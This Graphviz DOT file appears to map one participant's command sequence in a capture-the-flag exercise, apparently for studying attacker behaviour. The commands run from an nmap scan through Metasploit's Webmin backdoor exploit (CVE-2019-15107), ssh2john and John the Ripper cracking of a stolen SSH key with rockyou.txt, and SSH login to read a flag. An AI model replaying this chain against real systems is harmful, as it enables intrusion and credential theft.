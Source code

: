 // creating graph for user: 73
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 A0 "]
	1 [label="msf U"]
	2 [label="metasploit U"]
	3 [label="msfconsole U"]
	4 [label="search webmin 1.920 U"]
	5 [label="search cve:2019-15107 U"]
	6 [label="use exploit/unix/webapp/webmin_backdoor U"]
	7 [label="show options U"]
	8 [label="set TARGETURI=172.18.1.5:10000 U"]
	9 [label="set TARGETURI 172.18.1.5:10000 U"]
	10 [label="run U"]
	11 [label="show options U"]
	12 [label="set TARGETURI / U"]
	13 [label="set RHOST 172.18.1.5 U"]
	14 [label="run U"]
	15 [label="set LHOST 0.0.0.0 U"]
	16 [label="run U"]
	17 [label="show options U"]
	18 [label="search edb:47230 U"]
	19 [label="search webmin U"]
	20 [label="banner U"]
	21 [label="info U"]
	22 [label="connect U"]
	23 [label="run U"]
	24 [label="show options U"]
	25 [label="set LHOST 10.1.135.83 U"]
	26 [label="run U"]
	27 [label="ls U"]
	28 [label="pwd A9 M9 "]
	29 [label="ls U"]
	30 [label="ls U"]
	31 [label="cat ssh2john.py U"]
	32 [label="python ssh2john.py U"]
	33 [label="connect U"]
	34 [label="touch r.txt U"]
	35 [label="cp /tmp.r.txt rsa_d U"]
	36 [label="ls U"]
	37 [label="python ssh2john.py rsa_d A5 M5 "]
	38 [label="python ssh2john.py rsa_d > john_rsa A5 M5 "]
	39 [label="john john_rsa U"]
	40 [label="john rsa_d U"]
	41 [label="john john_rsa U"]
	42 [label="python ssh2john.py /tmp.k > rsa2 A5 M5 "]
	43 [label="cat rsa_d U"]
	44 [label="john ---h U"]
	45 [label="john -h U"]
	46 [label="ls U"]
	47 [label="ls Documents/m U"]
	48 [label="ls Documents/ U"]
	49 [label="ls Documents/ -laR U"]
	50 [label="ls U"]
	51 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt U"]
	52 [label="john --show U"]
	53 [label="ls U"]
	54 [label="john rsa_d --show U"]
	55 [label="ls U"]
	56 [label="ls fasttrack.txt U"]
	57 [label="ls -l U"]
	58 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt.gz U"]
	59 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt U"]
	60 [label="tar -xvf rockyou.txt.gz U"]
	61 [label="head rockyou.txt U"]
	62 [label="john rsa2 --wordlist /usr/share/wordlists/rockyou.txt U"]
	63 [label="ls U"]
	64 [label="john john_rsa U"]
	65 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt U"]
	66 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt U"]
	67 [label="john U"]
	68 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show U"]
	69 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=left U"]
	70 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=right U"]
	71 [label="john john_rsa --show --wordlist /usr/share/wordlists/rockyou.txt U"]
	72 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa A6 M6 "]
	73 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --show A6 M6 "]
	74 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa A6 M6 "]
	75 [label="less rockyou.txt U"]
	76 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH A6 M6 "]
	77 [label="ls U"]
	78 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH A6 M6 "]
	79 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa2 --format=SSH A6 M6 "]
	80 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH A6 M6 "]
	81 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH A6 M6 "]
	82 [label="john --show U"]
	83 [label="john --show john_rsa U"]
	84 [label="python ssh2john.py r.txt > rsa3 A5 M5 "]
	85 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose A6 M6 "]
	86 [label="john U"]
	87 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose A6 M6 "]
	88 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SS A6 M6 "]
	89 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH A6 M6 "]
	90 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH A6 M6 "]
	91 [label="less rockyou.txt U"]
	92 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa A6 M6 "]
	93 [label="show rsa_ U"]
	94 [label="show rsa_d U"]
	95 [label="john --show rsa_d U"]
	96 [label="python ssh2john.py /tmp/id_rsa hash A5 M5 "]
	97 [label="python ssh2john.py /tmp/id_rsa > hash A5 M5 "]
	98 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash A6 M6 "]
	99 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules A6 M6 "]
	100 [label="john --show hash U"]
	101 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules A6 M6 "]
	102 [label="john --wordlist=all.lst hash U"]
	103 [label="sudo john U"]
	104 [label="john --show hash --format=SSH U"]
	105 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules A6 M6 "]
	106 [label="john --show hash --format=SSH U"]
	107 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash A6 M6 "]
	108 [label="john --show hash --format=SSH U"]
	109 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash A6 M6 "]
	110 [label="ls U"]
	111 [label="echo '!hellokitty!!' > wl.txt U"]
	112 [label="john --wordlist wl.txt hash U"]
	113 [label="ls U"]
	114 [label="john --show hash U"]
	115 [label="echo -n '!hellokitty!!' > wl.txt U"]
	116 [label="john --wordlist wl.txt hash U"]
	117 [label="john --show hash U"]
	118 [label="john --show --format=SSH                             hash U"]
	119 [label="cat /tmp/id_rsa U"]
	120 [label="python ssh2john.py /tmp/id_rsa A5 M5 "]
	121 [label="ssh-add /tmp/id_rsa U"]
	122 [label="ssh-add id_rsa U"]
	123 [label="la U"]
	124 [label="ls -la U"]
	125 [label="python ssh2john.py id_rsa > hash A5 M5 "]
	126 [label="john --wordlist /usr/share/wordlists/rockyou.txt U"]
	127 [label="john --show id_rsa U"]
	128 [label="john --show hash U"]
	129 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash A6 M6 "]
	130 [label="john --show hash U"]
	131 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork 4 hash A6 M6 "]
	132 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork=4 hash A6 M6 "]
	133 [label="john --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 hash U"]
	134 [label="ssh-add id_rsa U"]
	135 [label="ssh eve@10.1.17.4 U"]
	136 [label="cp id_rsa .ssh/id_rsa U"]
	137 [label="ssh eve@10.1.17.4 U"]
	138 [label="ls U"]
	139 [label="ls -a U"]
	140 [label="chown 0044 U"]
	141 [label="chown 0044 id_rsa U"]
	142 [label="ssh-add id_rsa U"]
	143 [label="ssh eve@10.1.17.4 U"]
	144 [label="ls U"]
	145 [label="cd top-secret/ U"]
	146 [label="ls U"]
	147 [label="cat flag U"]
	148 [label="cat flag.txt A8 M8 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	rankdir=LR
}
